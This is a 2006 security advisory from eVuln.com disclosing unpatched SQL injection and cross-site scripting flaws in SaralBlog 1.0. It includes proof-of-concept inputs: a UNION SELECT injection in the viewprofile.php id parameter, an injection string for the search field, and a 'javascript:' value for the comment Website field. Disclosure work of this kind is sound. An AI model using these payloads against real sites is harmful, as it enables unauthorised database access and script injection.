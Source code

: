 === Content from evuln.com_4c4045cc_20250125_145302.html ===
  [![Website Security](http://evuln.com/img/logo.gif)](http://evuln.com/)  [Signup](http://evuln.com/account/signup) [Login](http://evuln.com/account/login)

* [Home](http://evuln.com/)
* [Services](http://evuln.com)
  + [Malware & Hack Repair](http://evuln.com/services/hack-repair/)
  + [Hack Insurance](http://evuln.com/services/hack-insurance/)
  + [External Monitoring](http://evuln.com/services/external-monitoring/)
* [Pricing](http://evuln.com/pricing/)
* [eVuln Labs](http://evuln.com)
  + [Scanner Statistics](http://evuln.com/labs/stats/)
  + [eVuln Advisories](http://evuln.com/labs/advisories/)
  + [Fixing Guide](http://evuln.com/labs/fixing-guide/)
* [Free Tools](http://evuln.com)
  + [Malware Scanner](http://evuln.com/tools/malware-scanner/)
  + [PHP Code Scanner](http://evuln.com/tools/php-security/)
  + [HTTP packet generator](http://evuln.com/tools/http-generator/)
  + [XSS string encoder](http://evuln.com/tools/xss-encoder/)
  + [SQL string encoder](http://evuln.com/tools/sql-encoder/)
* [Contacts](http://evuln.com/contacts/)

# XSS and Multiple SQL Injection in SaralBlog

## Summary

VulnerabilityXSS and Multiple SQL Injection in SaralBlogDiscovered2006.01.18Last Update0 n/aIDEV0040CVECVE-2006-0345 CVE-2006-0346Risk LevelmediumTypeMultiple VulnerabilitiesStatusUnpatchedVendorn/aVulnerable Software SaralBlog (http://www.saralblog.org/)Version1.0PoC/ExploitAvailableSolutionNot availableDiscovered byAliaksandr Hartsuyeu (eVuln.com)
## Description

Multiple Vulnerabilities found in SaralBlog (http://www.saralblog.org/) script.

1. Most of user defined data isn't properly sanitized. This can be used to make any SQL query by injecting arbitrary SQL code.

2. Cross-Site Scripting is possible.

Vulnerable script: view.php
Variable $website isn't properly sanitized. This can be used to insert arbitrary javascript code.

## PoC/Exploit

1. SQL Injection Example
http://host/viewprofile.php?id=999%20union%20select%201,2,3,4,5,6,7/\*

2. SQL Injection Example (gpc\_magic\_quotes: off)

Search:
aaaaa') union select 1,2,3,4,5,6/\*

3. Cross-Site Scripting

Adding new comment:
Website: javascript:alert(123)

## Solution.

Solution for "XSS and Multiple SQL Injection in SaralBlog" is **not available**. Check vendor's website for updates.

### Company

* PC Evuln.com / II Evuln.com
* Email:
* skype: evuln.com
* Phone: +37068935936

### Services

* [Hack Repair](http://evuln.com/services/hack-repair/)
* [Hack Insurance](http://evuln.com/services/hack-insurance/)
* [External Monitoring](http://evuln.com/services/external-monitoring/)
* [Pricing](http://evuln.com/pricing/)
* [Partner Program](http://evuln.com/partners/)

### eVuln Labs

* [Scanner Statistics](http://evuln.com/labs/stats/)
* [eVuln Advisories](http://evuln.com/labs/advisories/)
* [Fixing Guide](http://evuln.com/labs/fixing-guide/)

### eVuln Tools

* [Malware Scanner](http://evuln.com/tools/malware-scanner/)
* [PHP Code Scanner](http://evuln.com/tools/php-security/)
* [HTTP Packet Generator](http://evuln.com/tools/http-generator/)
* [XSS String Encoder](http://evuln.com/tools/xss-encoder/)
* [SQL String Encoder](http://evuln.com/tools/sql-encoder/)

[Privacy Policy](http://evuln.com/privacy.html) | [Terms of Use](http://evuln.com/terms.html) | Copyright 2005-2014 eVuln.com



